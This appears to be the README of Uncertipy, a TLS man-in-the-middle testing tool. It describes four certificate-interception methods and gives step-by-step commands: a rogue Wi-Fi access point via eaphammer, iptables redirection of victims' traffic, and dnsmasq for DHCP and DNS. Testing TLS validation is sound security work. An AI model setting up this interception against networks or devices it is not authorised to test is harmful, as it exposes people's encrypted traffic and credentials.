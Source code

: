 # Uncertipy

A tool for intercepting improperly validated TLS connections and performing MitM attacks. 
This is based on the work and code by [aapooksman](https://github.com/aapooksman), specially 
his [certmitm](https://github.com/aapooksman/certmitm) tool.

Interception methods are as follows:
* `self_signed`: Intercepts connection using a self-signed certificate.
* `replaced_key`: Downloads and re-signs the server's real certificate chain, with a newly created key.
* `real_cert`: Uses the provided certificate and key to intercept the communication.
* `real_cert_CA`: Injects the provided cert into the server's real certificate chain. 

# Usage

```bash
usage: uncertipy.py [-h] [-a ADDRESS] -p PORT -c CERT -k KEY -m {self_signed,replaced_key,real_cert,real_cert_CA} [-v] [-d]

options:
  -h, --help            show this help message and exit
  -a, --address ADDRESS
                        Address to listen on.
  -p, --port PORT       Port to listen on.
  -c, --cert CERT       Path to a valid TLS certificate, signed by a CA.
  -k, --key KEY         Path to the certificate key.
  -m, --method {self_signed,replaced_key,real_cert,real_cert_CA}
                        TLS interception method to use.
  -v, --verbose         Verbose output.
  -d, --debug           Debug output.
```

This tool listens for connections on a specific port, and tries to modify TLS connections and perform 
MitM attacks on them. You will need a real CA signed certificate and key for some of the methods. 
The best way to use this is by deploying a WiFi network, to which your devices will connect to. 
For example, using [eaphammer](https://github.com/s0lst1c3/eaphammer):

```bash
sudo ./eaphammer --auth wpa-psk --wpa-passphrase <wifi-password> --interface <wifi-interface> --essid <essid>
```

Then assigning an IP address to the connected devices:

```bash
sudo ip addr add 10.0.0.1/24 dev <wifi-interface>
```

Next, redirecting traffic to uncertipy. 

```bash
sudo iptables -A INPUT -i <wifi-interface> -j ACCEPT
sudo iptables -t nat -A PREROUTING -i <wifi-interface> -p tcp -m tcp -j REDIRECT --to-ports <port>
sudo iptables -t nat -A POSTROUTING -o <internet-connected-interface> -j MASQUERADE
```

Now, enable DHCP and DNS on your WiFi AP:

```bash
sudo dnsmasq --no-daemon --interface <wifi-interface> --dhcp-range=10.0.0.100,10.0.0.200 --log-dhcp --bind-interfaces -C /dev/null
```

Finally, run uncertipy:

```bash
python3 uncertipy.py -a 0.0.0.0 -p <port> -c <path/to/cert> -k <path/to/key> -m <method>
```